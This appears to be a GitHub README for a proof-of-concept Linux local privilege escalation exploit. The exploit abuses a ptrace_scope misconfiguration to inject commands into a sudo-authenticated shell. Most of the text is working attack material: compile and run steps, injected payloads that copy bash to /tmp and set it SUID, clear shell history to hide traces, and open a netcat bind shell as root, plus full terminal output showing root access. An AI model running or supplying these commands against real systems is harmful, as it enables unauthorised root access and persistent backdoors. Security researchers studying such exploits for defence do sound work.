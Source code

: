 # ptrace misconfiguration local privilege escalation
ptrace misconfiguration Local Privilege Escalation

WARNING! this is a POC, the code is CRAP

why this POC? why ptrace for this? just for fun. I know, I know you can get the sudo control in other different ways x)

video demo on youtube: https://youtu.be/3Qmy1Y8W7A8

Injecting code via ptrace (with same user) in shells with sudo authenticated

Exploit Reqs:
* ptrace enable to attach the processes of the user
* terminal with a sudo user group (attacker)
* terminal with the same user & sudo authenticated (victim)
* run xpk or ptrex 

WARNING: if GDB is installed in the machine is more safe run https://www.exploit-db.com/exploits/46989

'ptrace_scope' misconfiguration Local Privilege Escalation by Marcelo Vazquez (s4vitar) & Victor Lasa (vowkin)

my code is based in the s4vitar & vowkin POC and use ptrace (no GDB dep).

I made two POC-flavours for the same thing xpk.c & ptrex.c

## xpk.c
stdin hijack (using ptrace_do lib https://github.com/emptymonkey/ptrace_do): sudo -S cp /bin/bash /tmp + sudo -S chmod +s /tmp/bash + history -c 
```
gcc -o xpk xpk.c
./xpk
```

WARNING: only works for x86_64 systems (ptrace_do limitation)

* can inject code from x86_64-xpk-compiled to x86_64 process
* can inject code from x86_64-xpk-compiled to x86 process

## ptrex.c:
shellcode injection (using ptrace) execve(python -c import os; os.system("echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1")); 
```
gcc -o ptrex ptrex.c
 ./ptrex 
```

You can also inject your own python code: 

./ptrex full_python_path newcmdline

Example with 
* own python binary (limit 150 bytes): /home/dreg/tmp/python
* bind bash shell python code (limit 250 bytes) : import os; os.system("/usr/bin/sudo /bin/nc -lvp 4444 -e /bin/bash")
```
./ptrex /home/dreg/tmp/python 'import os; os.system("/usr/bin/sudo /bin/nc -lvp 4444 -e /bin/bash")'
```

* works for x86_64 systems & x86 systems
* can inject code from x86_64-ptrex-compiled to x86_64 process
* can inject code from x86-ptrex-compiled to x86 process
* can inject code from x86_64-ptrex-compiled to x86 process

WARNING: inject code from x86-ptrex-compiled to x86_x64 process is not possible

## How to test xpk.c:
Open a terminal with a sudo user group

execute any command with sudo and enter the password, ex:
```
dreg@fr33project:~$ tty
/dev/pts/4
dreg@fr33project:~$ id
uid=1003(dreg) gid=1003(dreg) groups=1003(dreg),27(sudo)
dreg@fr33project:~$ sudo whoami
[sudo] password for dreg:
root
dreg@fr33project:~$ 
```

open other terminal with the same user and execute ./xpk (the name of the exploit executable is important, dont change!)
```
dreg@fr33project:~$ tty
/dev/pts/7
dreg@fr33project:~$ .gcc -o xpk xpk.c
dreg@fr33project:~$ ./xpk
David Reguera Garcia aka Dreg exploit without gdb dep, based in:
https://www.exploit-db.com/exploits/46989
'ptrace_scope' misconfiguration Local Privilege Escalation
Authors: Marcelo Vazquez  (s4vitar)
         Victor Lasa       (vowkin)

[*] PID -> bash
[*] Path 2660: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> bash
[*] Path 2892: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> sh
[*] Path 2998: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> bash
[*] Path 2999: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap

[*] Cleaning up...
[*] Spawning root shell...
bash-5.0# id
uid=1003(dreg) gid=1003(dreg) euid=0(root) egid=0(root) groups=0(root),27(sudo),1003(dreg)
bash-5.0# whoami
root
bash-5.0#
```

## How to test ptrex.c:
Open a terminal with a sudo user group

execute any command with sudo and enter the password, ex:
```
dreg@fr33project:~$ tty
/dev/pts/4
dreg@fr33project:~$ id
uid=1003(dreg) gid=1003(dreg) groups=1003(dreg),27(sudo)
dreg@fr33project:~$ sudo whoami
[sudo] password for dreg:
root
dreg@fr33project:~$ 
```

open other terminal with the same user and execute ./ptrex
```
dreg@fr33project:~$ tty
/dev/pts/7
dreg@fr33project:~$ .gcc -o ptrex ptrex.c
dreg@fr33project:~$ ./ptrex
ptrex v0.3-beta - MIT License - Copyright 2020
David Reguera Garcia aka Dreg - dreg@fr33project.org
http://github.com/David-Reguera-Garcia-Dreg/ - http://www.fr33project.org/
-
ptrace misconfiguration Local Privilege Escalation
using ptrace (no GDB dep) execve
-
Based from: https://www.exploit-db.com/exploits/46989
'ptrace_scope' misconfiguration Local Privilege Escalation by Marcelo Vazquez (s4vitar) & Victor Lasa (vowkin)

To change default python path & cmd injected: ./ptrex full_python_path newcmdline
    example: ./ptrex /home/dreg/tmp/python 'import os; os.system("/usr/bin/sudo /bin/nc -lvp 4444 -e /bin/bash")'

/proc/sys/kernel/yama/ptrace_scope : 0
pgrep "^(echo $(cat /etc/shells | tr '/' ' ' | awk 'NF{print $NF}' | tr '\n' '|'))$" -u "$(id -u)" | sed '$ d'
current pid: 18888
skipping current shell pid: 18888
current pid: 20156
elf plat: 64
waiting for process
getting registers
injecting shellcode at: 0x00007f33a88890e9
setting instruction pointer to: 0x00007f33a88890e9
runing
please wait...
found suid shell: /tmp/bash
rooting.....
/tmp/bash -p -c 'rm /tmp/bash ; tput cnorm && /bin/bash -p'

bash-5.0# whoami
root
bash-5.0#
```
## WORKING ON:

* Parrot Home/Workstation: 4.6 
* Parrot Security: 4.6 
*	CentOS / RedHat: 7.6 
*	Kali Linux: 2018.4 
* Debian GNU/Linux: 10 (buster)

## CONTRIBUTORS

nobody loves me

## TODO


